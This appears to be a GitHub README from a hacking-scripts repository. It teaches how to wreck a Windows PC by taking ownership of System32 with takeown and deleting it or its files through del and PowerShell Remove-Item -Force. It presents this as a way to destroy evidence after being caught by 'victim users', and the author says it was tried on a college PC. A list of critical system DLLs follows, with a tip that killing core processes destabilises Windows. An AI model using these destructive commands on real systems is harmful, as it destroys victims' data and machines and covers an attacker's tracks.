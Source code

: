 # Destructing Windows PC !
If you made any error or get caughten by some victim users , The best option is to Destruct or Delete the datas > making windows unstable . One of the 3 ways am going to tell you . it is gonna be awesome

## system32

The system32 is a core file in Windows Machines . It contains critical system files and libraries that are essential for the proper functioning of the Windows operating system. The files in the System32 folder are necessary for running programs and applications, as well as for maintaining the stability and security of the operating system.

## How can i manipulate system32 folder!

Nowadays windows has maken this folder a lot more securer !. Even admin not have access to .. 
<br>WTF ! Then How <br><br>
There is an way !
<br>
<br>
### Using takeown command
    takeown /F System32 /R
    
```
del .\system32 or \system32
```
takeown command will give owner permission to admin user. owner can modify or Del anything !!
/F -> Folder <br>
/R -> apply for folder ,subflolders and its Files

### Powerscripts
```
$path = "C:\Windows\System32\file_name.exe" ;
Remove-Item $path -Force -ErrorAction SilentlyContinue
```
Remove specfic file using the above command
### Pic 
Me doing an test in one of my college PC'S :) <br><br>
<img src="https://raw.githubusercontent.com/Whitecat18/Ps-script-for-Hackers-and-Pentesters/main/source/windows-ps-script.jpeg" height=350>
<br><br>

# Understanding system32
As an Pentester (Exploit Dev or Rev Eng) or an Hacker . You should Understand what and how windows is stable ie their working mecanics !
<br> You dont need to learn everything . Just in some cases look through the sheets . Gud to GO

#### Basic files that stables and runs windows .
Tip: killing some main process is enough to make windows unstable ! . Dont need to delete whole folder :)
<br>

-   `ntoskrnl.exe`: The Windows NT kernel is the core component of the operating system that manages system resources, including memory, hardware devices, and processes.
    
-   `hal.dll`: The Hardware Abstraction Layer is a layer of software that allows the operating system to communicate with hardware devices.
    
-   `win32k.sys`: This file contains the kernel-mode portion of the Windows graphics subsystem and is responsible for managing the display of graphical elements on the screen.
    
-   `user32.dll`: This dynamic link library contains functions used by user-level applications to interact with the Windows operating system, including managing windows, menus, and input events.
    
-   `kernel32.dll`: This dynamic link library contains functions used by both user-level applications and system-level components to perform tasks such as memory management, thread management, and file input/output.
    
-   `advapi32.dll`: This dynamic link library contains functions used by system-level components to perform tasks such as registry access, security management, and event logging.


-   `msvcrt.dll`: This dynamic link library contains functions used by many applications to perform basic C runtime operations, such as memory allocation and string manipulation.
    
-   `rpcrt4.dll`: This dynamic link library contains functions used by the Remote Procedure Call (RPC) system, which is used by many Windows components to communicate with each other.

-    `netapi32.dll`: This dynamic link library contains functions used by the networking subsystem, including managing network connections and accessing network resources.
    
-   `ole32.dll`: This dynamic link library contains functions used by many Windows components to implement COM and OLE functionality, which is used for inter-process communication and object-oriented programming.
    
-   `gdi32.dll`: This dynamic link library contains functions used by many Windows components to perform graphics-related tasks, such as drawing images and text on the screen.
    
-   `shlwapi.dll`: This dynamic link library contains functions used by many Windows components to perform common string and file manipulation tasks.
    
-   `shell32.dll`: This dynamic link library contains functions used by many Windows components to implement the Windows shell, including managing the desktop, taskbar, and file explorer.


-   `advpack.dll`: This dynamic link library contains functions used by many Windows components to perform installation and configuration tasks, such as installing software and updating system settings.
    
-   `comctl32.dll`: This dynamic link library contains functions used by many Windows components to implement common controls, such as buttons, menus, and dialog boxes.

-   `usp10.dll`: This dynamic link library contains functions used by many Windows components to implement advanced typography and text layout features, including bidirectional text and complex scripts.

-   `ws2_32.dll`: This dynamic link library contains functions used by many Windows components to implement the Winsock API, which is used for network communication.
    
-   `userenv.dll`: This dynamic link library contains functions used by many Windows components to manage user profiles, including user-specific settings and preferences.
    
-   `crypt32.dll`: This dynamic link library contains functions used by many Windows components to perform cryptographic operations, such as encrypting and decrypting data.

-   `mpr.dll`: This dynamic link library contains functions used by many Windows components to implement the Multiple Provider Router, which is used for managing network connections and resources.
    
-   `setupapi.dll`: This dynamic link library contains functions used by many Windows components to perform device installation and configuration tasks, such as installing drivers and managing hardware devices.
    
-   `cfgmgr32.dll`: This dynamic link library contains functions used by many Windows components to manage system configuration, including hardware profiles and device configuration.
    
-   `eventlog.dll`: This dynamic link library contains functions used by many Windows components to implement the Event Logging system, which is used for tracking system events and errors.
    
-   `aclui.dll`: This dynamic link library contains functions used by many Windows components to implement the Access Control List Editor, which is used for managing file and folder permissions.
    
-   `version.dll`: This dynamic link library contains functions used by many Windows components to manage file version information, including checking the version of installed software and libraries.
